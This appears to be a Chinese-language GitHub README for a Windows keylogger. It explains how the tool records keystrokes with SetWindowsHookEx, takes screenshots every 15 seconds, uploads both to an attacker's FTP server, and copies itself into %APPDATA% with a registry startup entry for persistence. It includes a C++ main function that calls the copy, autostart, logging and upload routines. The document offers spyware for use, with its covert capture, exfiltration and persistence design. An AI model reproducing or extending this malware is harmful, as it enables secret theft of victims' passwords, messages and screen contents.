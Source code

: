 # Keylogger（键盘记录、截屏、ftp传输）

## 基本原理
  1、通过WinAPI：SetWindowsHookEx进行键盘信息记录，记录结果形成一个txt文件，保存在%APPDATA%/IAMLOG/路径下，。\
  2、定时截图（默认间隔15秒），图片保存在%APPDATA%/IAMLOG/路径下，。\
  3、一个单独的线程定时通过ftp发送txt文件和图片文件，上传后的图片名称带有时间戳。\
  4、程序第一次运行时会把自己复制到%APPDATA%/IAMLOG/路径下，并把相应路径写入注册表启动项，以后开机自动运行。

## FTP服务器：FileZilla
  使用方法比较简单，配置好服务器后将IP、端口号、用户名、密码更新到BCKeylogger.cpp中。

## 使用方法
  主要文件：BCKeylogger.h和BCKeylogger.cpp\
  在主文件中引用头文件，并通过子线程调用Keylogger的主要功能，参考main.cpp主函数中的调用方法，如下所示：
  ```
  #include <thread>
  #include "BCKeylogger.h"

  using namespace std;

  int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR pCmdLine, int nCmdShow)
  {
	  userpath();
	  AutoCopy();
	  AutoStart();

	  std::thread t1(StartKeyLogging);
	  std::thread t2(sendfileProcess);

	  t1.join();
	  t2.join();
  }
  ```

## 主要参考了以下两个Github的代码
  [ajayrandhawa/Blackcat-Keylogger](https://github.com/ajayrandhawa/Blackcat-Keylogger)\
  [vim2meta/keylogger](https://github.com/vim2meta/keylogger)
